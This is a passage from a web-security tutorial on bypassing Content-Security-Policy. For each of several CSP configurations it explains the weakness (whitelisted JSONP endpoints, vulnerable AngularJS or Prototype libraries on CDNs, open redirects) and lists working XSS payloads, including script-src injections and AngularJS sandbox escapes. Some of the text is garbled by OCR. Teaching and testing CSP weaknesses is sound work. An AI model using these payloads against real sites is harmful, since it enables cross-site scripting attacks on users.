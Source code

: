 working payloads :"/>'><script src="/user\_upload/mypic.png.js"></script>

**Scenario** : **6**

Content-Security-Policy: script-src 'self' https://www.google.com; object-src 'none' ; report-uri /Report-parsing-url;

In such scenarios where script-src is set to self and a particular domain which is whitelisted, it can be bypassed using jsonp. [jsonp](https://github.com/zigoo0/JSONBee) endpoints allow insecure callback methods which allow an attacker to perform xss.

working payload :"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>

**Scenario** : **7**

Content-Security-Policy: script-src 'self' https://cdnjs.cloudflare.com/; object-src 'none' ; report-uri /Report-parsing-url;

In such scenarios where script-src is set to self and a javascript library domain which is whitelisted. It can be bypassed using any vulnerable version of javascript file from that library , which allows the attacker to perform xss.

working payloads :<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>

 <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>  
 <div ng-app ng-csp>  
  {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}  
 </div>

"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>  
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>

**Scenario** : **8**

Content-Security-Policy: script-src 'self' ajax.googleapis.com[;](https://cdnjs.cloudflare.com/;) object-src 'none' ;report-uri /Report-parsing-url;

If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome [git](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22) repo.

working payloads :ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>

**Scenario** : **9**

Content-Security-Policy: script-src 'self' accounts.google.com/random/ website.with.redirect.com [;](https://cdnjs.cloudflare.com/;) object-src 'none' ; report-uri /Report-parsing-url;

In the above scenario, there are two whitelisted domains from where scripts can be loaded to the webpage. Now if one domain has any open redirect endpoint CSP can be bypassed easily. The reason behind that is an attacker can craft a payload using redirect domain targeting to other whitelisted domains having a jsonp endpoint. And in this scenario XSS will execute because while redirection browser only validated host, not the path parameters.
